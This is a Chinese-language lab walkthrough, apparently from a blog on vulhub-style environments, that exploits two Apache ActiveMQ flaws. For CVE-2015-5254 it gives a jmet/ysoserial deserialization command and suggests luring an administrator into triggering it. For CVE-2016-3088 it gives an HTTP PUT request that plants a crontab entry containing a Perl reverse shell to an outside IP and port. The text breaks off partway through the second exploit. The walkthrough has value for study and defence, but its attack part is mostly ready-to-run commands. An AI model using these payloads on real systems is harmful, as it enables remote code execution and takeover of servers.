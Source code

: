 ActiveMQ 反序列化漏洞（CVE-2015-5254）

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service\(JMS\)ObjectMessage对象利用该漏洞执行任意代码。

环境运行后，将监听61616和8161两个端口。其中61616是工作端口，消息在这个端口进行传递；8161是Web管理页面端口。

漏洞利用过程如下：

1.  构造（可以使用ysoserial）可执行命令的序列化对象
2.  作为一个消息，发送给目标61616端口
3.  访问web管理页面，读取消息，触发漏洞

使用[jmet](https://github.com/matthiaskaiser/jmet)进行漏洞利用。首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。

执行：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616</span><br></pre></td></tr></tbody></table>

此时会给目标ActiveMQ添加一个名为event的队列，我们可以通过`http://your-ip:8161/admin/browse.jsp?JMSDestination=event`看到这个队列中所有消息：

点击查看这条消息即可触发命令执行，此时进入容器`docker-compose exec activemq bash`，可见/tmp/success已成功创建，说明漏洞利用成功：

将命令替换成弹shell语句再利用：

值得注意的是，通过web管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。

#### [](#2-CVE-2016-3088 "(2)CVE-2016-3088")\(2\)CVE-2016-3088

环境监听61616端口和8161端口，其中8161为web控制台端口，本漏洞就出现在web控制台中。  
访问`http://192.168.6.130:8161/`看到web页面，说明环境已成功运行。

本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

写入crontab，自动化弹shell

这是一个比较稳健的方法。首先上传cron配置文件（注意，换行一定要`\n`，不能是`\r\n`，否则crontab执行会失败）：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line">PUT /fileserver/1.txt HTTP/1.1</span><br><span class="line">Host: 192.168.6.130:8161</span><br><span class="line">Accept: */*</span><br><span class="line">Accept-Language: en</span><br><span class="line">User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)</span><br><span class="line">Connection: close</span><br><span class="line">Content-Length: 248</span><br><span class="line"></span><br><span class="line">*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.6.130";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'</span><br><span class="line">##</span><br></pre></td></tr></tbody></table>
